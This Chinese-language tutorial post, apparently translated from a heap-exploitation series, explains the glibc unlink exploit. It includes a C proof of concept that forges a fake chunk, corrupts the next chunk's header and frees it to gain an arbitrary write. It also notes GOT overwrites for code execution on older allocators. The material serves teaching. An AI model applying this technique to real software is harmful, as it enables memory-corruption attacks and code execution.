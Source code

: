```yaml
---
title: "heap利用 4/9: Unlink Exploit"
date: 2023-02-05T15:36:08+08:00           

tags : [                                    
"heap利用",
]
categories : [                              
"heap利用",
]
keywords : [                                
"heap利用",
]
---
```


<br>

unlink exploit曾经是一种很常见的攻击，但是后来`unlink` MACRO中添加了两项能够抵御该类攻击的安全检查("corrupted size vs. prev_size"和“corrupted double-linked list”)，尽管如此，花一些时间去了解这种攻击还是很值得的。

unlink exploit在利用`unlink` MACRO中指针操作的同时，会在`bin`中移除一个`chunk`。下列代码展示了一个这种攻击的案例。(完整代码见[此处](https://github.com/DhavalKapil/heap-exploitation/blob/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c))

```C
struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x80);        // Points to 0xa0e010
chunk2 = malloc(0x80);        // Points to 0xa0e0a0

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x80;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;   // hex for "hacked!"

printf("%s\n", data);         // Prints "hacked!"
```

<br>

unlink exploit与其他攻击相比，可能看起来有点复杂，具体攻击操作如下。首先，使用`malloc`为块`chunk1`和`chunk2`申请大小为`0x80`的内存空间，确保它们在smallbin范围内，此时**chunk1和chunk2在内存空间中并排排列**。然后假设攻击者以某种方式对`chunk1`的内容拥有无限的控制权（使用任何"不安全"的函数，例如用户输入的`strcpy`)。为了能够更加清楚的介绍原理，上面的示例代码使用自定义结构`chunk_structure`，而在实际的攻击场景中，攻击者只需发送字节来填充`chunk1`就可达到与上述所示相同的效果。

申请内存空间后，系统会在`chunk1`的"data"部分创建了一个新的假块，然后调整`fd`和`bk`指针来通过 "corrupted double-linked list" 安全检查。攻击者在发动攻击时，攻击内容会溢出到`chunk2`的标头中，此时在该标头设置适当的`prev_size`和`prev_in_use`来确保每次释放`chunk2`时,`fake_chunk`会被检测为空闲状态然后被 "unlink" 。下图显示了各个内存区域的当前状态:

![Unlink before call to free](../image/heap_exploit_unlink_exploit-1.png)


了解如何通过(`P->fd->bk ==P`和`P-> bk->fd == P`检查，可以帮助学习如何调整假块的`fd`和`bk`指针。一旦`chunk2`被释放，它就会被当作一个小型的bin处理。回想一下，内存空间中`chunk2`上一个和下一个的块不管是否空闲，都会被进行安全检查，如果有块被检测为“空闲”，该块则会被 "unlink" ，然后被合并为连续的空闲块。`unlink` MACRO会执行以下两个修改指针的指令:
1. 设置`P->fd->bk = P->bk`。
2. 设置`P->bk->fd = P->fd`。

在这种情况下，`P->fd->bk`和`P->bk->fd`都指向同一位置，因此只有第二次更新被注意到。下图显示了释放`chunk2`后第二次更新的效果。

![Unlink after call to free](../image/heap_exploit_unlink_exploit-2.png)

此时，`chunk1`指向自身后面的3个地址(16位)(`&chunk1 - 3`），`chunk1[3]`实际上就是`chunk1`，更改`chunk1[3]`就像更改`chunk1`。攻击者更有可能在`chunk1`的位置 (此处为`chunk1[3]`)而不是`chunk1`本身修改数据，在此示例中，`chunk1`指向 "data" 变量，并且通过`chunk1`的更改反映在该变量上。

早些时候`unlink`中没有安全检查，`unlink` MACRO中的两条写入指令可以用于实现任意写入，因此攻击者可以通过覆盖`﹒got`部分来执行任意恶意代码的漏洞。


